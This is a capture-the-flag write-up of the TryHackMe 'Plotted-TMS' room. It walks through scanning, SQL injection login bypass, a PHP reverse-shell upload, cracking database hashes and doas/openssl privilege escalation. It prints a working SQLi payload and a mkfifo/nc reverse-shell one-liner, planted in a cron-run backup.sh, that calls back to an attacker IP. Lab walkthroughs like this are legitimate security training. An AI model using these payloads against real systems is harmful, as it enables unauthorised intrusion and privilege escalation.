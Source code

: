 # **Plotted-TMS**

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/6187c9220cd0ff0c5c3b29b9aa6252ea.png)
## **Difficulty = Easy**

***


running our nmap scan we have -:

```bash
# Nmap 7.94 scan initiated Tue Nov  7 21:24:54 2023 as: nmap -p80,22,443 -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.10.250.150
Nmap scan report for 10.10.250.150
Host is up (0.15s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open   http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
443/tcp closed https
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov  7 21:25:12 2023 -- 1 IP address (1 host up) scanned in 18.60 seconds
```


Navigating to port `80/HTTP` we have


![](https://i.imgur.com/sc9fXeJ.png)


Viewing page source did not lead to anything so i decided to run dir/file bruteforce with `dirsearch`


![](https://i.imgur.com/QAKDphw.png)


Navigating to `/admin` we have this `id_rsa` file with the following content


![](https://i.imgur.com/YTmJwnd.png)


which in turn looks like **base64**, decrypting it gave us this 🤣

![](https://i.imgur.com/8u3qnn8.png)


Navigating to `/passwd` we have this **base64** encoded text


![](https://i.imgur.com/HSHQ2rQ.png)



Decrypting it gave us the following text also 🤣


![](https://i.imgur.com/iFnjPU9.png)


Looks like i made a typo, running `rustscan` again i have port `445/HTTP` open

![](https://i.imgur.com/ZCEo5xB.png)


Navigating to this port still gives us an Apache default webpage, but running dir/file bruteforce with `ffuf` we have

![](https://i.imgur.com/3bavh0x.png)


Navigating to `/management` we have


![](https://i.imgur.com/rrcu8kL.png)


Navigating to `/management/admin/login.php` we have the login endpoint


![](https://i.imgur.com/LJBxtC4.png)


I tried login in with **SQLI** and yeah it worked using the payload `admin' OR 1=1#`


![](https://i.imgur.com/2j8gqGD.png)


Navigating to `/management/admin/?page=user` we have a restricted file upload vulnerability whereas we can upload any files even if it is **.PHP, .TXT**, literally anything 🤣

![](https://i.imgur.com/ZQgjSB7.png)


We can go ahead and upload our reverse shell, I decided to guess the endpoints of where the file was going to and yeah it landed in `/management/uploads`

![](https://i.imgur.com/MrgLDvq.png)


Start up your listener and execute your reverse shell


![](https://i.imgur.com/dP3rvaD.png)



So we got shell as user **www-data**


![](https://i.imgur.com/GHYBQaW.png)


Navigating to `/var/www/html/445/management` and concatenating `initialize.php`, we have user **tms_user** MySQL logs

![](https://i.imgur.com/cmc7MDu.png)

Login in to MySQL and using enumerating this service i found two password hashes together with the one in `initialize.php` if you look closely

```bash
# login to mysql

$ mysql -u tms_user -p

# enumerate mysql

mysql> show databases;
mysql> use tms_db;
mysql> show tables
mysql> select * from users;
```


![](https://i.imgur.com/bg3iYcg.png)


We can go ahead and crack them with [crackstation.net](https://crackstation.net)



![](https://i.imgur.com/SKI3lGE.png)



Looks like the password found doesn't seem to work anywhere

![](https://i.imgur.com/9cdcEgn.png)


Navigating to `/var/www/scripts` we have permissions to write to this folder as user **www-data**, so i removed the `backup.sh` script

![](https://i.imgur.com/OAHEqHi.png)

Then added my own malicious `backup.sh` reverse shell, meanwhile the `backup.sh` is running as a cronjob with user `plot_admin`

```bash
$ nano backup.sh

# Add this to backup.sh and save
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.75.133 8888 >/tmp/f

$ chmod +x backup.sh
```


![](https://i.imgur.com/8XKmb1C.png)




Then we got shell as user **plot_admin**


![](https://i.imgur.com/8a5LmBT.png)



Checking `suid` we have this `doas` binary


```bash
find / -perm -4000 2>/dev/null
```


![](https://i.imgur.com/Wg6sTjW.png)


Concatenating the `doas` config file located under `/etc/doas.conf` we have this rule set


![](https://i.imgur.com/ptDGOnq.png)

> The `doas` command is just the same as when using the `sudo` command, in this case we have the following rule to allow the user “plot_admin” to run the “openssl” program as root without asking for any password.


Checking **gtfobins** we have the permission to read files with `openssl`



![](https://i.imgur.com/0M1Mcg4.png)




we can go ahead and use the `doas` command to read the root flag


![](https://i.imgur.com/VYQfNtg.png)

Have fun 🤸



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>



